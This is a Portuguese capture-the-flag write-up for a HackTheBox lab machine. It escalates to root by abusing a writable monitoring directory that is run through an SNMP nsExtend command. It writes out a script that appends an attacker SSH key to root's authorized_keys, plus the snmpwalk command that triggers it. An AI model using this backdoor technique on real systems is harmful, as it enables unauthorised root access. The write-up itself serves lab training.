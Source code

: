 Inspecionando este arquivo, na verdade descobri que se tratava de um diretório, o qual não temos acesso de leitura (apenas escrita e execução vide output acima). Buscando por outros arquivos que fizessem referência a este diretório, executei um `grep` recursivo no sistema, onde encontrei um arquivo previamente observado no scan do `snmpwalk`.

```bash
[michelle@pit local]$ grep -r "/usr/local/monitoring/"  / 2>/dev/null
/usr/bin/monitor:for script in /usr/local/monitoring/check*sh
[michelle@pit local]$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
[michelle@pit local]$
```

Como podemos ver, este script executa quaisquer arquivos com nome `check*.sh` do diretório `/usr/local/monitoring`, permitindo, que qualquer comando arbitrário seja executado a partir do processo que inicializa o script `/usr/bin/monitor`.

Para melhor entendimento de como poderia usar este privilégio encontrado, decidi buscar dentro do recon já realizado menções ao arquivo `monitor`, onde encontrei uma referência nos scans do SNMP onde este arquivo se encontra configurado como **nsExtendedCommands**.

```bash
$ grep -r "/usr/bin/monitor" .
./scans/snmpwalk_nsExtendObjects.txt:NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
./scans/snmp_full.txt:iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
```

De acordo com o guia em [SNMP RCE - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce#getting-the-shell-from-net-snmp-extend), se algum componente estiver configurado como nsExtendedCommand (ou for capaz de adicionar algum binário arbitrariamente dentre estas configurações), você pode inicializar a sua execução utilizando o `snmpwalk`.

Com base nas informações levantadas, temos uma possível forma de obter acesso `root`, onde os seguintes passos foram utilizados:

- Criei um arquivo  `checkXXXX.sh`, que adiciona uma chave pública como confiável dentro do arquivo `authorized_keys` do perfil que executa o processo e copiado para `/usr/bin/monitor`.

```bash
#!/bin/bash
echo "ssh-rsa <base64PubKey> root@kali" >> ~/.ssh/authorized_keys
```

- A partir da máquina do atacante, iniciei a ação para executar as ações nsExtendedObject

```bash
# Trigger Extended objects
snmpwalk -v 1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

- Após este ponto, consegui me conectar utilizando a chave privada correspondente via SSH com a conta do usuário `root`, onde consegui obter a flag final.

